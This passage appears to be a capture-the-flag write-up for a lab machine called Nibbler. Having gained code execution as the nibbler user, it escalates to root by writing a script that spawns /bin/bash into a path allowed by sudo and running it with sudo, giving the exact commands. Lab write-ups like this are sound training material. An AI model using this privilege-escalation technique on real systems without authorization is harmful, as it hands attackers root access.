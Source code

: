 We go through service HTTP (port 80), once we get RCE as nibbler user we can create a sh script in `/home/nibbler/personal/stuff/monitor.sh` (seen with `sudo -l` command) and place a shell like this:

```bash
#!/bin/bash
/bin/bash
```

We give the script execute permissions and we can get a shell as root:

```bash
$ echo -e '#!/bin/bash\n/bin/bash' > monitor.sh
$ chmod +x monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh
```